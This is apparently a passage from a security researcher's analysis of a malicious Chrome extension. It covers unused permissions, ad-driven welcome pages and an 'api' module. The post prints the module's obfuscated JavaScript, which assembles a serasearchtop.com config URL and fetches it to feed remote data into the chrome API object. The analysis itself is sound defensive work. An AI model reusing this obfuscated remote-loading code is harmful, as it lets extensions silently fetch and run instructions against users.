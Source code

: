 While Chrome Web Store [requires extension developers not to declare unnecessary permissions](https://developer.chrome.com/docs/webstore/program-policies/permissions/), this policy doesn’t seem to be consistently enforced. This extension also requests access to detailed browser tabs information and downloads, but it doesn’t use either.

## The “config” file

So all of the extension functionality is contained in the browser action pop-up and the page opening in a new tab. But it still has a background page which, from the look of it, doesn’t do much: it runs Google Analytics and sets the welcome and uninstall page.

This is standard functionality found in some other extensions as well. It seems to be part of the monetization policy: the pages come from `ladnet.co` and display ads below the actual message, prompting you to install some other browser extensions.

The module called `then-chrome` is unusual however. It in turn loads a module named `api`, and the whole thing looks like wrapping the extension APIs similarly to Mozilla’s [WebExtension API polyfill](https://github.com/mozilla/webextension-polyfill). Which would have been slightly more convincing if there were anything actually using the result.

The `api` module contains the following code:

```js
var Iv = TL ?
  "http" + ff + "//s" + qc + "a" + fx + "ar" + document.location.protocol.substring(0, 2) +
    (ad ? "to" : ad) + so + "c" + document.location.protocol.substring(3, 5) + "/cf" + Sr :
  qB;
let oe = Iv;
oe += bo + (Ua + "fg.") + qB + document.location.protocol.substring(14, 16);
```

Weird, right? There are all these inline conditionals that don’t do anything other than obfuscating the logic. `TL` gets `document` assigned to it, `ad` gets `chrome.runtime` as its value – there is no way any of these might be missing.

This is in fact a very convoluted way of constructing a constant string: `https://serasearchtop.com/cfg/bahogceckgcanpcoabcdgmoidngedmfo/cfg.json`. As the next step the extension calls `window.fetch()` in order to download this file:

```js
const ax = await window["fet" + document.location.protocol.substring(0, 2)](oe);
if (ax.ok)
{
  const rd = await ax.json();
  (0, af.wrapObject)(chrome, rd)
}
```

Calling `wrapObject` with `chrome` as first parameter makes the impression that this were some harmless configuration data used to wrap extension APIs. The fact that the developers spent so much effort to obfuscate the address and the downloading tells otherwise however.

## Detection prevention

Before I start going through the “wrapper,” there is another piece of logic worth mentioning. Somebody probably thought that the extension making a request to serasearchtop[.]com immediately upon installation would draw suspicions. While it isn’t clear what this domain does or who is behind it, it managed to get onto a bunch of anti-tracking blocking lists.
